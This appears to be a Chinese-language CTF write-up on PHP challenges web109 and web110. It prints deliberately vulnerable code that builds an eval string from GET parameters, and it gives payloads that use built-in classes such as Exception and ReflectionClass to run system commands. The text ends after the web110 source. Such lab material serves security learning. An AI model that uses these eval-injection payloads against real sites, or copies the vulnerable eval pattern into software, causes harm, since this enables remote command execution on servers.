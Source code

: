 ##  18.php异常类

###  web109

```php
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
```

羽师傅的wp：

先来看下这个正则表达式`/[a-zA-Z]+/` 匹配**至少有一个字母**的字符串
我们使用内置类让new不报错

payload

```
payload:
v1=Exception();system('tac f*');//&v2=a
v1=ReflectionClass&v2=system('tac f*')
```

##  19.php原生类

https://blog.csdn.net/unexpectedthing/article/details/121780909

##  20.FilesystemIterator类的使用

###  web110

代码显示

```php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");
```
